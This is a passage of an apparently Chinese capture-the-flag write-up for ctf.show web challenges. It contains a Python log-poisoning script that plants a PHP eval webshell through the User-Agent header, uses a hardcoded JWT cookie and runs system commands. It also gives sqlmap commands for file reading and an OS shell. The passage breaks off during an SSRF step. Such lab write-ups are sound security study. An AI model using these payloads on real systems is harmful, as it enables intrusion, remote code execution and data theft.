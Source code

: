 上之前的脚本

```python
import requests
import base64
url="http://1384ae6c-918d-45c9-ba93-1addbb0be926.challenge.ctf.show/"
url2="http://1384ae6c-918d-45c9-ba93-1addbb0be926.challenge.ctf.show/debug/?file=/var/log/nginx/access.log"
cmd=b"<?php eval($_POST[1]);?>"
cmd=base64.b64encode(cmd).decode()
headers={
	'User-Agent':'''<?php system('echo {0}|base64 -d  > /var/www/html/b.php');?>'''.format(cmd),
	'Cookie':'auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5MTUwMDI5MSwiZXhwIjoxNjkxNTA3NDkxLCJuYmYiOjE2OTE1MDAyOTEsInN1YiI6ImFkbWluIiwianRpIjoiM2IwZGZmYTI4MjdmMDRmYzgzNGQ3ZTJmZDIxYjY4YzEifQ.0S7ayxRWVrr6NAg9AmgBT5eLoLRrpSUrJDFOCn6bCLo'
}
print(headers)
requests.get(url=url,headers=headers)
requests.get(url2,headers=headers)
print(requests.post(url+'b.php',data={'1':'system("cat alsckdfy/check.php");'},headers=headers).text)
```

## 剩下

都是些 sqli ，常用到 sqlmap

### web390

```
python sqlmap.py -u http://fdbabc63-b2f3-4050-8b2e-9f5ee609119a.chall.ctf.show/page.php?id=2 --file-read /var/www/html/alsckdfy/check.php --batch
```

### web391

注入点不在page.php了，在输入标题的地方（随便点个页面就能看到）

```
python sqlmap.py -u http://042a780b-dfd3-4bd9-861c-81661b2915e0.chall.ctf.show/search.php?title=1 --file-read /var/www/html/alsckdfy/check.php --batch
```

### web392

```
python sqlmap.py -u http://175efaca-626f-46a6-bddd-68246b90c5f5.chall.ctf.show/search.php?title=1 --os-shell
```

### web393

随便访问一个发现其实是读取的百度的前端代码。那么如果把地址改成 `file:///flag`，或者自己再添加一个url是不是就可以了。
先利用 sqlmap 跑出来数据库的表名列名
